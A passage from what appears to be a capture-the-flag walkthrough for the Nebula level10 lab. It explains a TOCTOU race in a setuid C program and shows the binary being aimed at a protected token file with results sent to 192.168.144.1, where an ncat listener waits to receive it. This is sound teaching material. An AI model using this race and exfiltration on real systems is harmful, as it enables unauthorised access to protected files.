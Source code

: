 ```c

      rc = read(ffd, buffer, sizeof(buffer));
      if(rc == -1) {
          printf("Unable to read from file: %s\n", strerror(errno));
          exit(EXIT_FAILURE);
      }

      write(fd, buffer, rc);

      printf("wrote file!\n");

  } else {
      printf("You don't have access to %s\n", file);
  }
}
```

This is a classic time of check to time of use (TOCTTOU) vulnerability. The
`access()` function call checks the real UID of the process to determine if
the user is able to access a file while the `open()` function call uses the
effective UID instead.

The goal here is to use the `flag10` binary to read the `token` file.

```shell
level10@nebula:~$ ls -lah /home/flag10
total 14K
drwxr-x--- 2 flag10 level10   93 2011-11-20 21:22 .
drwxr-xr-x 1 root   root     160 2012-08-27 07:18 ..
-rw-r--r-- 1 flag10 flag10   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag10 flag10  3.3K 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag10 level10 7.6K 2011-11-20 21:22 flag10
-rw-r--r-- 1 flag10 flag10   675 2011-05-18 02:54 .profile
-rw------- 1 flag10 flag10    37 2011-11-20 21:22 token

level10@nebula:~$ /home/flag10/flag10 /home/flag10/token 192.168.144.1
You don't have access to /home/flag10/token
```

We can race the program by getting it to read a symlink that initially points
to a file owned by the real UID (level09) and changing that symlink to point
to the `token` file after the `access()` function call and before the `open()`
function call.

We start by setting up a listener on port 18211 to receive the token file. We
use the `-k` flag to keep the listener alive between connections.

```shell
% ncat -nlvkp 18211

Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: 67C3 CB2E CE15 70FF E1BE BF0D 07B7 8B49 7FCD 1DB9
Ncat: Listening on :::18211
Ncat: Listening on 0.0.0.0:18211
```
